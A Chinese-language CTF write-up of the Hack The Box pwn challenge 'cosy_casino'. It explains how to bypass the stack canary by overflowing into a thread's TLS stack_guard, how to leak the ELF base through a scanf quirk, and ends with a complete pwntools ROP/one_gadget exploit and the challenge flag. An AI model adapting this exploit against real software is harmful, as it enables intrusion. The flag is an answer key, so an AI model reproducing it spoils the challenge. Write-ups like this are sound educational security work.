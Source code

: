 ﻿---
title: HTB-cosy_casino-pwn-challenge-wp
categories: [CTF,HTB]
tags: [pwn]
password: HTB{thr34d5_4nd_c4n4r13s_4r3_n0t_g00d_fr13nd5_4ft3r_4ll}
---
学习到了`thread stack bypass canary`还是比较有意思的一题<!--more-->

## 题目保护

参看题目保护，发现保护全开。

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## 劫持程序流

分析程序流程，在 last_chance发现一个栈溢出点。

```c
unsigned __int64 __fastcall last_chance(void *a1)
{
  char buf; // [rsp+0h] [rbp-30h]
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts(aYouHaveOnlyAFe);
  read(0, &buf, 0x900uLL);
  gems += 20;
  return __readfsqword(0x28u) ^ v3;
}
```

但是由于题目有canary保护，我们需要劫持canary或泄露出canary。但审计代码发现`last_chance`的调用非常诡异：

```c
  pthread_create(&newthread, 0LL, (void *(*)(void *))last_chance, 0LL);
  pthread_join(newthread, 0LL);
```

在查阅资料时发现：

> 研究表明，glibc在TLS实现上存在问题，线程在pthread_create的帮助下创建，然后需要给这个新线程选择TLS。
> 在为栈分配内存后，glibc在内存的高地址初始化TLS，在x86-64架构上，栈向下增长，将TLS放在栈顶部。
> 从TLS中减去一个特定的常量值，我们得到被新线程的stack register所使用的值。
> 从TLS到pthread_create的函数参数传递栈帧的距离小于一页。
> 现在攻击者将不需要得到leak canary的值，而是直接栈溢出足够多的数据来复写TLS中的tcbhead_t.stack_guard的值，从而bypass canary。

具体可以参看：

https://www.openwall.com/lists/oss-security/2018/02/27/5

https://eternalsakura13.com/2018/04/24/starctf_babystack/

加之，题目中read 溢出空间大，我们就有机会把canary 劫持成我们自己输入的数据，从而劫持RBP与RIP即劫持了程序流。



## 泄露地址

现在我们解决了程序流问题，下面的问题就是如何获取gadget和libc基础地址来调用后门的问题。经过调试发现，如果在`get_ul`函数中的`__isoc99_scanf("%lu", a1);`输入`\x00`字符，那么将不会改变a1里原本的数据。

```shell
 ► 0x55d257047727 <main+456>    call   get_ul <get_ul>
        rdi: 0x7ffd1bd61888 —▸ 0x55d257046b20 (_start) ◂— xor    ebp, ebp
        rsi: 0x0
        rdx: 0x0
        rcx: 0x7ff2c5b8cdd4 (write+20) ◂— cmp    rax, -0x1000 /* 'H=' */
        
————————————————————————————————————————————————————————————————————
 ► 0x55d2570472fd <get_ul+46>    call   __isoc99_scanf@plt <__isoc99_scanf@plt>
        format: 0x55d257047dea ◂— 0x7325000000756c25 /* '%lu' */
        vararg: 0x7ffd1bd61888 —▸ 0x55d257046b20 (_start) ◂— xor    ebp, ebp
gdb-peda$ x/36gx 0x7ffd1bd61888
0x7ffd1bd61888: 0x000055d257046b20      0x00007ffd1bd61980

```

在题目环境中我们就泄露处出`__start`的地址，解决获得了elf的基本地址。

从而推算出elf文件中的`pop rdi;ret`指令的地址和`puts`函数在got表中地址的。从而泄露出libc的基地址。

## exp

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   exp.py
@Time    :   2021/11/18 11:22:47
@Author  :   lexsd6
'''

from pwn import * 
from libcfind import *

local_mote=1
elf='./casino'
e=ELF(elf)
context.log_level = 'debug'
context.arch=e.arch
ip_port=['46.101.51.163',30846]

debug=lambda : gdb.attach(p) if local_mote==1 else None

if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])


p.sendline('1')


p.sendline('1')
p.sendline('%p')
for i in range(10):
    p.sendline('1')
    p.recvuntil('Pick a number (0-32)')
    p.sendline('\x00')
    p.recv()
debug()
p.sendline('3')

p.recvuntil('Pick a number (0-32)')

p.sendline('\x00')

p.recvuntil('[-]')

addr=int(p.recvuntil('is')[:-2])
log.info(hex(addr))
e_base=addr-0xb20
#0x00000000000018f3 : pop rdi ; ret
#0x000000000000226b : call qword ptr [rbp + 1]
#0x0000000000000b80 : pop rbp ; ret
#0x00000000000009e6 : ret
ret=e_base+0x00000000000009e6 
call_rbp=e_base+0x000000000000226b
rdi_ret=e_base+0x00000000000018f3
rbp_ret=e_base+0x0000000000000b80
e_put=e_base+e.plt['puts']
e_got_put=e_base+e.got['puts']
log.info('puts:'+hex(e_put)+'-'+hex(e_got_put))

e_got_read=e_base+e.got['read']
e_alarm=e_base+e.plt['alarm']
#p.sendline('\x01'*0x840)
base_addr=0x204700+e_base
#0x00000000000009e6 : ret
#0x000000000000EF2  ; void *last_chance(void *)
"""
pay='\x7f'*0x38+p64(rdi_ret)+p64(e_got_put)+p64(e_put)+p64(rdi_ret)+p64(0x200)+p64(e_alarm)+csu(e_got_read,0,base_addr-1,0x10,rdi_ret)+p64(base_addr+8)
pay+=csu(e_got_read,0,base_addr,0x18,rdi_ret)+p64(base_addr+0x10)+csu(e_got_read,0,0,0,rdi_ret)+p64(base_addr+0x10)+p64(rbp_ret)+p64(base_addr-1)+p64(0x00000000000009e6+e_base)+p64(call_rbp)+'x'*8
pay+=(0x900-len(pay))*'\x7f'
"""
pay='\x7f'*0x38+p64(rdi_ret)+p64(e_got_put)+p64(e_put)+p64(e_base+0x000000000000EF2)*2
pay+=(0x8ff-len(pay))*'\x7f'
#debug()
p.sendline(pay)

puts_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
x=finder('puts',puts_base)

pay='\x00'*0x38+p64(x.ogg())+p64(e_base+0x000000000000EF2 )
pay+=(0x8ff-len(pay))*'\x00'
p.sendline(pay)
p.interactive()


#HTB{thr34d5_4nd_c4n4r13s_4r3_n0t_g00d_fr13nd5_4ft3r_4ll}
```

